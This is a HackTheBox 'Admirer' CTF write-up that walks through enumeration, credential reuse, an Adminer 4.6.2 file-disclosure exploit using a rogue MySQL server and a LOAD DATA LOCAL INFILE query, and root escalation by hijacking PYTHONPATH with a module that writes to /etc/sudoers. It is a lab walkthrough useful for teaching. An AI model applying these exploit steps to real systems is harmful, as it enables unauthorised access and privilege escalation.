 ```yaml
---
layout: post
title: "HackTheBox: Admirer Write-Up"
categories: [write-ups]
permalink: /write-ups/htb_admirer_writeup/
---
```

Admirer is an easy rated machine hosted in HackTheBox. As always, the goal is to obtain root and read the flag in /root/root.txt.<br>
It's been a long time since I've posted something, that is because I am really busy with college right now so I don't have time to solve CTFs and do the write-ups.
<h1>Port Scan</h1>
![Port Scan](portscan.png)
We can see that there are 3 ports open with ftp, ssh and http.
<h1>HTTP Enumeration</h1>
Looking at the default scripts output from Nmap we can see that there is a robots.txt file with a disallowed entry.
![Robots](robots.png)
The entry is a directory without directory listing enabled, so I used Gobuster to enumerate the files.
![Gobuster Admin Dir](gobusterAdminDir.png)
There are two files, one with some names and emails and the other one with some credentials.
![Contacts](contacts.png)
![Credentials](credentials.png)
<h1>FTP Authenticated Login</h1>
FTP doesn't have anonymous access enabled but the credentials obtained in the credentials.txt file allow us to login as ftpuser to the server. There are only two files inside the FTP server (a database dump and a tar.gz file).
![FTP File List](ftpFiles.png)
The database dump doesn't have anything really interesting, but it tells us the database that is being used and some info about the server.
![SQLDump](sqldump.png)
The html.tar.gz seems to be an old backup of the web on port 80.
![HTML list](htmlList.png)
The w4ld0s_s3cr3t_d1r seems to be the same as admin-dir and the utility-scripts directory has some administration related php scripts.
![Utility Scripts ls](utilityScriptsLs.png)
Inside of the db_admin.php file we can read the following:
![DB Admin Code](db_adminCode.png)
<h1>Finding Database Admin</h1>
The utilty-scripts directory exists on the web server but it doesn't have the db_admin.php file, which means that they've found an open source alternative. I used both Gobuster and Google to find the necessary file.
![Google DBADMIN](google.png)
The first search result on Google shows "Adminer", which is also the name of the database (it is written in the SQLDump).
Gobuster found a file called adminer.php inside of the utility-scripts directory.
![Gobuster utility-scripts](gobusterUtScr.png) 
<h1>Adminer Enumeration</h1>
The credentials of the database are inside the index.php file in the backup, but they don't work with the Adminer page.
![Backup credentials](indexBakCred.png)
![Login failed](loginFail.png)
As we can see in the login failed image the installed version of Adminer is 4.6.2, which is [vulnerable and leads to file disclosure](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).
<h1>Exploiting Adminer</h1>
To exploit the vulnerability we need to have a mysql server exposed to the network with users that have remote access and permissions to write in a table.<br>
I changed the bind address inside the /etc/mysql/mariadb.conf.d/50-server.cnf file.
![Bind Address](adminerexp1.png)
![Starting the server](adminerexp2.png)
![Create user and GRANT](adminerexp3.png)
![Create the table](adminerexp4.png)
Once all the preparations are done we only need to connect to our server using the Adminer of the machine.
![Adminer Login](adminerLogin1.png)
![Adminer Login Success](adminerLogin2.png)
Then we can execute this query with the index.php file to dump the current database credentials into our SQL server:
{% highlight SQL %}LOAD DATA local INFILE "nameOfFile" INTO TABLE file;{% endhighlight %}
![Query Executed](query1.png)
![Credentials](query2.png)
<h1>SSH as Waldo</h1>
The credentials found using the file disclosure can be used to access the machine as the waldo user.
![SSH](sshWaldo.png)
Running the "sudo -l" command we can see that waldo can execute the "/opt/scripts/admin_tasks.sh" as root while preserving his environment variables.
![Sudo -l](sudo-l.png)
This code calls a python script that backups the web files:
{% highlight bash %}backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
{% endhighlight %}
The python script imports a function from the shutil module and executes it with three arguments:
{% highlight python %}#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
{% endhighlight %}

<h1>PrivEsc to Root</h1>
Reading the python documentation I found that python has a variable that specifies the search path for the modules, which is initialized using the PYTHONPATH environment variable. If we change the PYTHONPATH we can inject a malicious module and run it as root.
![PYTHONPATH info](PYTHONPATHinfo.png)
I wrote this module, which grants waldo sudo privileges to run commands as every user (I tried using a reverse shell, but it didn't work because the process was getting sent to background).
{% highlight python %}def make_archive(arg1,arg2,arg3):
    f = open("/etc/sudoers","a")
    f.write("waldo    ALL=(ALL:ALL) ALL")
    f.close()
{% endhighlight %}
![PrivESC](privesc.png)

<h1>Conclusion</h1>
This machine focuses on enumerating the web server, which was an unknown topic for me the first time I attempted it. If you are familiar with this then the machine is pretty straightforward until the privilege escalation part, where I had to spend some time because I didn't know anything about the python module importing mechanism.
